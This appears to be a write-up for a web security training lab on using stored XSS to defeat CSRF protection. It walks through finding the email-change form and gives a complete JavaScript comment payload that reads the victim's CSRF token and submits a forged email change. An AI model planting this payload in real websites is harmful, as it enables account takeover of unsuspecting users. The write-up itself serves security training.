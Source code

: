 # Lab 6: Exploiting XSS to bypass CSRF defenses

Exploit stored XSS to extract a victim’s CSRF token and change their email address when they view your comment.

---

## 🔐 Credentials

- **Username:** `wiener`
- **Password:** `peter`

---

## 💡 Hint

- You cannot register an email address already in use.
- When testing, use **unique email addresses** before final deployment to the victim.

---

## 🧪 Lab Solution Steps

### 1️⃣ Log In and Inspect Email Change Functionality

- Log into your account using the credentials above.
- Navigate to the **"My Account"** page.
- View the source of the page — you will discover:
    - 📥 A POST request to `/my-account/change-email`
    - 🔑 A hidden CSRF token input:
        
        ```html
        <input type="hidden" name="csrf" value="...">
        
        ```
        

---

### 2️⃣ Craft the Stored XSS Payload

- Submit this payload in a **blog comment** field:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();

function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&email=test@test.com');
};
</script>

```

### 🧠 What It Does:

- Makes a **GET** request to `/my-account`
- Extracts the CSRF token from the response
- Uses the token to **submit a forged POST** request to update the victim's email address

---

## ✅ Goal

When a **victim user** views the comment:

- Their browser executes your payload
- Their **email gets changed** to `test@test.com`
- 🎉 The lab is solved

---

## 🎥 Community Solution

> 📺 Watch on YouTube: 
[https://youtu.be/DWThhRPwGEg](https://youtu.be/DWThhRPwGEg)
>